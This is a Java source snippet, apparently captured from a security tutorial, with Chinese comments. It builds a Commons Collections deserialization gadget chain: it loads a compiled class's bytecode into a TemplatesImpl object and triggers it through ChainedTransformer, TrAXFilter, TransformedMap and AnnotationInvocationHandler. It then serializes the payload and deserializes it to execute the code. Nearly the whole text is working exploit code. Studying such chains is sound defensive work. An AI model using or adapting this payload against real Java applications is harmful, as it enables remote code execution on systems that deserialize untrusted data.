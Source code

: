 ```java
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static String classFileToBase64(String filepath) throws IOException {
        String classFilePath = filepath;
        String base64String;
        // 读取 class 文件的字节数组
        byte[] classBytes = Files.readAllBytes(Paths.get(classFilePath));

        // 将字节数组转换为 Base64 编码字符串
        base64String= Base64.getEncoder().encodeToString(classBytes);

        return base64String;
    }
    public static void main(String[] args) throws Exception {
        String base64Code = classFileToBase64("your/class/path/CalcExample.class");
        byte[] code =
                Base64.getDecoder().decode(base64Code);
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "CalcExample");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] { Templates.class },
                        new Object[] { obj })
        };

        Transformer transformerChain = new
                ChainedTransformer(transformers);

        Map innerMap = new HashMap();

       
        innerMap.put("value", "xxxx");
       

        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        Object objSer = construct.newInstance(Retention.class, outerMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(objSer);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = ois.readObject();
    }
}
```
